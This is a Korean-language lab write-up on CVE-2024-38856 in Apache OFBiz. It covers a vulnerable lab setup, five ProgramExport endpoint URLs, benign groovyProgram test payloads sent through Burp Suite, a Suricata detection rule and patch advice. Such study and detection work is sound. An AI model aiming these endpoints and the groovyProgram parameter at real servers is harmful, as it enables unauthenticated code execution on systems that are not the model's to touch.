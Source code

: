 ```yaml
---
layout: default
title: cve-2024-38856
category: "Apache"
nav_order: 3
parent: cve
---
```


# cve-2024-38856
{: .no_toc }

Apache OFBiz Incorrect Authorization 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
Apache OFBiz에서 특정 화면 정의(screen definitions)파일이 사용자의 권한을 명시적으로 검증하지 않고, 엔드포인트 설정에 의존하여 접근을 허용해 화면 렌더링 코드를 실행할 수 있는 취약점

## 1.2 취약 대상
Apache OFBiz 버전 18.12.14 이전

## 1.3 공격 원리
- Apache OFBiz의 웹 애플리케이션에서 엔드포인트를 스캔하여 취약한 엔드포인트 식별
- 취약한 엔드포인트를 통해 접근한 공격자는 관련된 화면 정의 파일(ProgramExport View)에 접근
- 화면 정의 파일에 포함된 화면 렌더링 코드를 악용하여 임의의 악성 코드를 실행
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
apt-get update
apt-get upgrade
sudo apt install openjdk-11-jdk
sudo apt install gradle ## gradle이란?

cd /usr/local/src
wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-18.12.04.zip
unzip apache-ofbiz-18.12.04.zip

## Apache OFBiz 18.12.04 는 Gradle 5.0.0 이상 버전을 사용
cd /usr/local/src/apache-ofbiz-18.12.04/gradle/wrapper
wget https://raw.githubusercontent.com/gradle/gradle/v5.0.0/gradle/wrapper/gradle-wrapper.properties
wget https://github.com/gradle/gradle/raw/v5.0.0/gradle/wrapper/gradle-wrapper.jar

## 주의 사항 : localhost 가 아닌, 가상환경에서 서버 구동 시, 해당 가상환경 ip를 설정에 등록
vi /usr/local/src/apache-ofbiz-18.12.04/framework/security/config/security.properties
## 옵션 변경
protect-view.preprocessor=
## 활성화 옵션
default.error.response.view=none:
## 아래에 추가
host-headers-allowed=localhost,192.168.56.1
block-external-host-requests=false
allow-program-export=true

## Apache OFBiz 18.12.04 실행
cd /usr/local/src/apache-ofbiz-18.12.04
./gradlew cleanAll loadAll
./gradlew ofbiz 

## ----- HomePage ----- ##
접속 : https://ip:8443/myportal/control/main
id : admin
password : ofbiz
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve/cve-2024-38856//homepage.PNG)

---

## 1.5 주요 내용
CVE-2024-38856의 핵심은 ProgramExport 엔드포인트가 인증 없이 접근 가능한 취약점
<br>이 엔드포인트는 외부에서 전달된 데이터를 Groovy Script로 실행할 수 있는 구조를 가지고 있어, 공격자가 특정 파라미터를 통해 코드 실행

{: .note-title }
> **ProgramExport**는 Apache OFBiz Framework에서 사용하는 Web Tools 중 하나로, 특정 기능이나 데이터를 처리 및 출력하는 데 사용한다. 이 엔드포인트는 주로 시스템 관리자가 다양한 데이터를 내보내거나 특정 프로그램을 통해 데이터 처리를 수행할 때 사용

---

## 1.6 공격 재현
Tool : Burp Suite v2024

## ProgramExport 엔드포인트 URL 접근
{: .no_toc }

Apache OFBiz에서 악용될 수 있는 URL은 TestService, view, showDateTime, main, forgotPassword
- example1 : https://192.168.56.1:8443/webtools/control/TestService/ProgramExport
- example2 : https://192.168.56.1:8443/webtools/control/view/ProgramExport
- example3 : https://192.168.56.1:8443/webtools/control/showDateTime/ProgramExport
- example4 : https://192.168.56.1:8443/webtools/control/main/ProgramExport
- example5 : https://192.168.56.1:8443/webtools/control/forgotPassword/ProgramExport

![](../../assets/images/cve/cve-2024-38856/TestService.png)


## Burp Suite 사용하여 groovyProgram에 파라미터값 전달
{: .no_toc }

Burp Suite를 활용하여 payload에 groovyProgram 파라미터 값을 삽입 후 테스트 <br>
groovyProgram=throw new Exception('CVE-2024-38856 TEST by Bite98');

![](../../assets/images/cve/cve-2024-38856/print_cve.png) <br>


테스트 확인 후, 시스템 정보()를 출력하는 파라미터값을 넣어 공격 진행
- groovyProgram=throw new Exception("Thread State: " + Thread.currentThread().getState());
- groovyProgram=throw%20new%20Exception%28%22Thread%20State%3A%20%22%20%2B%20Thread.currentThread%28%29.getState%28%29%29%3B

{: .note-title }
> **Thread.currentThread().getState()** 함수는 현재 스레드의 상태를 확인하여 예외를 통해 정보를 반환

![](../../assets/images/cve/cve-2024-38856/print_thread.png.png)

---

## 대응 패턴 적용
{: .no_toc }

- 신규 ET 패턴 1건

```c
alert http any any -> $HOME_NET any (
    msg:"ET WEB_SPECIFIC_APPS Apache OFBiz Pre-Auth Remote Code Execution Attempt (CVE-2024-38856)";
    flow:established,to_server;
    http.method;
    content:"POST";
    http.uri;
    content:"/webtools/control/";
    fast_pattern;
    startswith;
    pcre:"/^(?:TestService|view|showDateTime|main|forgotPassword)/R";
    content:"ProgramExport";
    endswith;
    http.request_body;
    content:"groovyProgram";
    startswith;
    reference:url,blog.sonicwall.com/en-us/2024/08/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability/;
    reference:cve,2024-38856;
    classtype:attempted-admin;
    sid:2054947;
    rev:1;
    metadata:affected_product Apache_OFBiz, attack_target Server, tls_state TLSDecrypt, created_at 2024_08_06, cve CVE_2024_38856, deployment Perimeter, deployment Internal, deployment SSLDecrypt, performance_impact Low, confidence High, signature_severity Major, updated_at 2024_08_06;
    target:dest_ip;
)
```

---

## 1.7 대응 방안
- Apache OFBiz 버전 18.12.14 이상으로 업데이트
- ProgramExport 엔드포인트 인증 설정
- groovyProgram과 같은 파라미터가 코드 실행에 사용되지 않도록 검증 로직 추가

--- 

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-38856
[Apache]: https://ofbiz.apache.org/security.html
